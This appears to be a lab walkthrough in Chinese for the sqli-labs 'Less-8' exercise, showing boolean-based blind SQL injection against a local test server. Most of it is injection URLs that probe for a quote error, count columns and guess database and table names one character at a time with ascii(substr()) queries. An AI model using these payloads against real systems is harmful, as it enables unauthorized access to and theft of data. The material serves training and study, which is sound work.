

# Less-8_01 法一 布尔盲注
1. http://127.0.0.1/sqli/Less-8/?id=1’ 判断此时存在注入漏洞
2.  http://127.0.0.1/sqli/Less-8/?id=1‘ order by 3--+   当3改为4的时候，you are in….消失，说明存在三列。
3. http://127.0.0.1/sqli/Less-8/?id=1' and left((select database()),1)=0x73 --+猜出来当前第一位是s
或者是使用： http://127.0.0.1/sqli/Less-8/?id=1‘ and ascii(substr((select database()),1,1)) > 16--+ 此时是有回显的。
4. http://127.0.0.1/sqli/Less-8/?id=1‘ and ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1)) >17 --+ 先通过大于号或者小于号来判断数据库的第一个字母是哪一个，也可以使用http://127.0.0.1/sqli/Less-8/?id=1’ and ascii(substr((select schema_name from information_schema.schemata limit 4,1),1,1)) = 115--+ 此时可以验证数据库中第五个数据库的第一个字母是s
5. http://127.0.0.1/sqli/Less-8/?id=1‘ and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 3,1),1,1)) >11 --+ 判断security数据库中的第4个表中的数据的第一位是否大于11, 也可以使用 http://127.0.0.1/sqli/Less-8/?id=1’ and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 3,1),1,1)) =117 --+ 验证数据库中第4个表中的数据的第一位的第一个字母的ascii码是否是117，也就是 u